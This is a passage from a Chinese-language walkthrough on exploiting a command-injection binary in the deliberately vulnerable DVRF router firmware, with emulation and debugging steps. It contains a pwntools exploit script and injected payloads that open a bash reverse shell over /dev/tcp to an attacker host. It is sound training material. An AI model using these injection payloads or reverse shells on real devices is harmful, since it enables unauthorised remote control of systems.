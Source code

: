 然后我们在IDA中可以看到

`.text:00400CF0                 jalr    $t9 ; system`

我们将断点下到这，`b *0x400cf0`，然后`c`执行，等待来自9999端口的输入。

3.我们编写利用脚本，`vi cmdexp.py`，脚本如下：

```
from pwn import *
p=remote("127.0.0.1",1234)
p.recvuntil("Send me a string:")
payload = "123|ls"
p.sendline(payload)
p.interactive()
```

我们运行脚本，看到在模拟端成功的返回了`ls`的结果，如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01baf88b3416dd5c1b.png)

4.看到这，我们就想着既然能够执行命令了，那么最好是返回一个shell,我们就想到直接用

`bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1`

然后运行，发现没有反弹shell，我们用gdb调试的时候，可以看到

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t014953db78aa84141b.png)

但是并没有返回shell，目前不知道原因。

然后看其他的大佬的exp，把注入的命令改为

`123;bash -c 'bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1'`

这样的话，就成功的返回了shell。

### <a class="reference-link" name="qemu%E6%A8%A1%E6%8B%9F"></a>qemu模拟

接下来我们进行qemu的模拟。

1.首先我们启动qemu，因为是mips小端，所以我们用如下的启动脚本start.sh和net.sh的脚本用来网络连接，并且在qemu里面运行net.sh脚本，进行网络配置，随后在qemu中运行net.sh脚本，从而配置网络ip地址，使两边能互通。

2.我们将解包完的系统拷贝到qemu中：

```
scp -r _DVRF_v03.bin.extracted root@192.168.100.3:/root/
```

3.我们开始模拟运行，并进行调试：

```
cd _DVRF_v03.bin.extracted/squashfs-root
chroot . ./pwnable/ShellCode_Required/socket_cmd 9999 &amp;
../../gdbserver.mipsel 192.169.100.254:6666 --attach 1000
```
